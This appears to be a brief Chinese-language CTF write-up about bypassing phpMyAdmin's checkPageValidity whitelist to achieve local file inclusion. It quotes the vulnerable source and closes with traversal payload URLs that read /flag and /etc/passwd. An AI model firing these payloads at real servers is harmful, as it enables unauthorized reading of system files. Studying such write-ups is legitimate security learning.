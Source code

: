 ```php
$target_blacklist = array (
    'import.php', 'export.php'
);
```

```php
    public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) { //判断是否空，是将$goto_whitelist赋值给他
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) { //判断是否在白名单中，是则返回true
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?') //截取，从开始到?的字符
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

我们绕过过滤进行文件包含就可以

主要看checkPageValidity函数

我们满足三个true中的一个就行(第一个true没有用)

payload

```
phpmyadmin/index.php?target=db_datadict.php?/../../../../../flag
phpmyadmin/index.php?target=db_datadict.php%3f/../../../../../flag
phpmyadmin/index.php?target=db_datadict.php%253f/../../../../../etc/passwd
```
